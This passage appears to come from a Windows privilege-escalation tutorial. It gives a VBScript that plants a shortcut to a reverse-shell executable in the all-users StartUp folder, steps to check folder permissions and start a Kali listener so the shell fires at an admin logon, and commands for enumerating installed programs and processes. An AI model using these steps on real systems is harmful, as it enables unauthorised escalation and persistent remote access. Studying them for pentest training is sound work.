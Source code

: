 It's important to remember that shortcut files (.lnk) must be used. To make a shortcut file, use the following VBScript:

```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Users\Public\reverse.exe"
oLink.Save
```

#### Startup Apps Privilege Escalation

1.  Check the permissions on the StartUp directory with accesschk.exe:

    ```
    .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    ```
2. The `BUILTIN\Users` group must have write access to this directory.
3. Using VBScript, create the file CreateShortcut.vbs. If necessary, change the file paths.
4.  Using cscript, run the script:

    ```
    > cscript CreateShortcut.vbs
    ```
5. Start a listener on Kali, then an admin user must log in to trigger the exploit.

### Installed Applications

The majority of privilege escalations involving installed apps are due to misconfigurations. Even so, some privilege escalation is caused through memory corruption exploits, therefore knowing how to identify installed applications and known vulnerabilities is still necessary.

#### Install Applications Commands

Enumerate installed applications/programs:

```powershell
ls -force "C:\Program Files (x86)\"
ls -force "C:\Program Files"
ls -force "C:\Program Files (x86)\" -recurse
ls -force "C:\Program Files" -recurse

# Directories only
ls -force "C:\Program Files" -recurse -attributes directory
```

Manually enumerate all running programs:

```
tasklist /v
```

We can also use Seatbelt to search for nonstandard processes:

```
.\seatbelt.exe NonstandardProcesses
```
